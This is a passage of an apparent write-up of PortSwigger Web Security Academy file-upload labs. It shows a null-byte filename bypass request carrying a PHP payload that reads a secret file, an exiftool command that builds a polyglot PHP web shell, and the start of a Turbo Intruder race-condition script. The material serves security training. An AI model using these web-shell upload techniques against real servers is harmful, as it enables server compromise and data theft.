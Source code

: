 Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.

```
POST /my-account/avatar HTTP/1.1
...
Content-Disposition: form-data; name="avatar"; filename="data.php%00.jpg"
Content-Type: application/x-php

<?php echo file_get_contents("/home/carlos/secret"); ?>
```

`GET /files/avatars/data.php HTTP/1.1`

### Lab: Remote code execution via polyglot web shell upload

This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret.

**My-account -> Login -> Upload Avatar**

**Error:**

Error: file is not a valid image Sorry, there was an error uploading your file.

```
$ exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" shell.jpeg -o data.php
```

`GET /files/avatars/data.php HTTP/1.1`

### Lab: Web shell upload via race condition

This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret.

We took advantage of altgorithm's processing time.

**Turbo Intruder ->**

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''POST /my-account/avatar HTTP/1.1
Host: ac8e1f411f99a135c07c3061008f00f7.web-security-academy.net
Cookie: session=exFApur1ws5zUINovUJPBtrMuo6wyhZh
Content-Length: 466
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://ac8e1f411f99a135c07c3061008f00f7.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5JBEpKkudjtX2Vh3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
```